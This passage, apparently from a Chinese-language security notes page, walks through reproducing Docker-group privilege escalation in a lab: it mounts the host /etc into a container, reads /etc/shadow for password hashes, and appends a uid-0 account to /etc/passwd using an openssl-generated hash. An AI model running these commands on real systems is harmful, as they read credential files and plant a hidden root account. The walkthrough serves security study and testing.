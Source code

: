 ```bash
adduser test-d
usermod -G docker test-d
newgrp docker
```

#### 复现

将 /etc/ 目录挂载进 Docker，查看 shadow 和 passwd

```bash
docker run -v /etc/:/mnt -it alpine
cd /mnt
cat shadow
```

<img width="1000" src="/img/Snipaste_2022-07-07_21-07-00.png"><br>

这里已经获取到密码 hash，有两个办法进行权限提升，一是进行 hash 破解，二是添加一个特权账号，这里选择第二个方法。

```bash
openssl passwd -1 -salt test-docker
```

<img width="1000" src="/img/Snipaste_2022-07-07_21-07-24.png"><br>

```bash
docker run -v /etc/:/mnt -it alpine
cd /mnt
echo 'test-docker:saltpasswd:0:0::/root:/bin/bash' >>passwd
```

<img width="800" src="/img/Snipaste_2022-07-07_21-07-57.png"><br>

<img width="800" src="/img/Snipaste_2022-07-07_21-08-59.png">

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年7月7日"
    }
  }
</script>
